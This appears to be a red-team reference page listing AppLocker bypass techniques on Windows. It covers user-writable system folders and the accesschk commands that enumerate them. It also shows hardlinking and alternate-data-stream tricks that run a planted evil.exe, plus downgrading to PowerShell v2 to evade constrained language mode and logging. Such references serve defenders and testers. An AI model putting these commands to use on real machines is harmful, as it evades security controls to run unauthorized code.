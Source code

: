 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

If you can place a file or folder into the path you become the owner of that object and you can change the ACL either in GUI or using ICALS. That includes adding Execute rights and more.
If deny execute is inherit you can either disable inheritance or you can use hardlink to a binary file in another folder using one of these commands:
```
fsutil hardlink create c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 

mklink /h c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 
```


You can check the for additional paths by running accesschk from sysinternals and supplying these commands:
```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

    

   
## PowerShell version 2

```
Powershell -version 2
```
Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features. 
   
   
    
## Visual Studio Tools for Office - .VSTO files

```
evilfile.vsto
```

You need to build a solution using Visual Studio Tools for Office. 
User needs to confirm installation after executing. 

* https://bohops.com/2018/01/31/vsto-the-payload-installer-that-probably-defeats-your-application-whitelisting-rules/
      
     
     
## NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
This means you can pipe data to a stream and execute it using many of the different methods:
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Example on adding binary to a writable file under program files (using ADS):
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

```

    
